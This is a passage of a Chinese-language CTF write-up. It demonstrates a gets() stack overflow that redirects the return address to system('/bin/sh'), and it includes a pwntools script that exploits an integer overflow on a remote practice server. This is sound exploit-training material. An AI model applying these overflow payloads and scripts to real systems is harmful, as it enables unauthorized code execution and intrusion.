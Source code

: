 可以看到，都是需要rdi寄存器去存储字符串地址(因为通常这个寄存器就是拿来干这个的)

因此回到程序上，可以看到我们rdi寄存器的位置由rax导入，然后这一步后

![image-20240417174939755](${images}/image-20240417174939755.png)

rax的值会重新变化，因为eax就是低位rax的32位寄存器，简而言之就是rax低8位地址，然后高32位会被清0

![image-20240417175004364](${images}/image-20240417175004364.png)

然后call gets函数，向rdi寄存器输入字符

![image-20240417175837608](${images}/image-20240417175837608.png)

观看stack里数据，注意到ret在stack里，那么因为gets函数不限制数据的长度，那么我们是否可以通过覆盖的方式，使得ret到我们想要的函数处，即system("/bin/sh")处？答案是可以的，我们计算一下它距离的地址，注意前面的地址标志的是开始的地址，因此是CB18-CAA0，注意到前8位都相同，所以我们只需要：

![image-20240417180326297](${images}/image-20240417180326297.png)

需要输入78个字符，然后再输入想要跳转到的地址：(0x4007b8)，需要等待"/bin/sh"字符串的输入

![image-20240417180651595](${images}/image-20240417180651595.png)

![image-20240417183115992](${images}/image-20240417183115992.png)

按F8到call处，然后再按F9或者直接按F9

随便输入个回车后，在栈顶CTRL+E，在ASCII栏处输入78个A，在hex栏手动输入地址（小端序，即b8 07 40 00 00 00 00 00）

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

![image-20240417183256180](${images}/image-20240417183256180.png)

![image-20240417184150555](${images}/image-20240417184150555.png)

****

双击栈顶更新后,可以看到已经覆盖住了，然后等待stack处理完数据，或者直接F9，直接看成果

![image-20240417184923564](${images}/image-20240417184923564.png)

![image-20240417184335211](${images}/image-20240417184335211.png)

### 1、（2）整形溢出

```
from pwn import *

p = remote('61.147.171.105','52510')

flag_addr = 0x804868B

p.sendlineafter("Your choice:",b'1')

p.sendlineafter("Please input your username:\n",b'root')

offset = 0x14+0x4

payload = offset * b'a' + p32(flag_addr) + (0x100-offset-0x4+0x4) * b'a'
#256溢出4变成4

print(len(payload))

p.sendlineafter("Please input your passwd:\n",payload)
```